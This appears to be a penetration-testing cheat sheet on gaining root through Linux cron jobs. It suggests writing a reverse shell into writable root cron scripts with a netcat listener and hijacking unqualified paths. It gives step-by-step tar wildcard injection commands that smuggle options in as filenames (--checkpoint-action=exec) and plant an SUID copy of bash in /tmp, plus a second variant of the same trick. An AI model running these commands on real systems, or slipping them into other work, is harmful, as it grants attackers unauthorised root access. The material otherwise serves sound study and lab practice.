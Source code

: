 # Cronjobs

## Program to use: pspy https://github.com/DominicBreuker/pspy

### 

    cat /etc/crontab

#### If we have write permissions on the script, we can modify it to enter a reverse shell in it that will automatically run as root.

### Reverse shell source:  Revshells https://revshells.com/

#### Open a listener then wait. 

#### Example: 

    nc -lvnp PORT

### If the full path of the script is not defined in the cronjob, then we can create our own script with the same name and run based on the PATH variables in the /etc/crontab file.

### We can also abuse wildcards for certain cronjobs to gain root.

## Wildcard Injection example:

### If a cronjob contains a wildcard utilizing tar we can do:

#### 1) 

    echo 'cp /bin/bash /tmp/bash; chmod u+s /tmp/bash' > runme.sh

#### 2) 

    chmod +x runme.sh

#### 3) 

    echo "" > --checkpoint=1

#### 4) 

    echo "" > --checkpoint-action=exec=sh runme.sh

#### 5) 

    /tmp/bash -p

### Note: Do the injection in the correct directory the automated script goes to so that it can actually run the injected commands via tar

## Generic wildcard injection

### Example:

### If you detect a cronjob/script that uses wildcard, chances are that it is vulnerable to wildcard injection.

### 1) 

    echo "cp /bin/bash /tmp/bash; chmod 4777 /tmp/bash" > shell.sh

### 2) 

    chmod +x shell.sh

### 3) 

    touch -- '-e shell.sh'



